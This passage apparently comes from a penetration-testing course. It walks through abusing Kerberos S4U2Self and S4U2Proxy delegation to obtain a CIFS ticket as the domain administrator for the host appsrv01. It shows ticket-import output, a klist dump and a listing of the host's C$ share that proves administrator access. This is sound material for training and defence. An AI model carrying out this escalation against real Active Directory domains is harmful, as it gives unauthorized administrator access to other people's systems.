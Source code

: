 ```
      doIGbDCCBmigAwIBBaEDAgEWooIFY...
[+] Ticket successfully imported!
```

> Listing 42 - Using S4U extension to request a TGS for appsrv01

After obtaining the TGT for the myComputer machine account, S4U2Self will then request a forwardable service ticket as the _administrator_ user to the myComputer computer account.

Finally, S4U2Proxy is invoked to request a TGS for the CIFS service on appsrv01 as the _administrator_ user, after which it is injected into memory.

To check the success of this attack, we'll first dump any loaded Kerberos tickets with klist.

```
PS C:\tools> klist

Current LogonId is 0:0x58e86

Cached Tickets: (1)

#0>     Client: administrator @ PROD.CORP1.COM
        Server: CIFS/appsrv01.prod.corp1.com @ PROD.CORP1.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 4/15/2020 11:43:27 (local)
        End Time:   4/15/2020 21:43:27 (local)
        Renew Time: 4/22/2020 11:43:27 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

> Listing 43 - Listing the service ticket to CIFS on APPSRV01

Now that we have a TGS for the CIFS service on appsrv01 as _administrator_, we can interact with file services on appsrv01 in the context of the _administrator_ domain admin user:

```
PS C:\tools> dir \\appsrv01.prod.corp1.com\c$

    Directory: \\appsrv01.prod.corp1.com\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/3/2020   7:17 AM                inetpub
d-----        7/16/2016   6:23 AM                PerfLogs
d-r---        4/14/2020   8:12 AM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-----        4/14/2020   8:13 AM                Tools
d-r---         4/3/2020   2:07 PM                Users
d-----         4/4/2020  10:31 AM                Windows
```
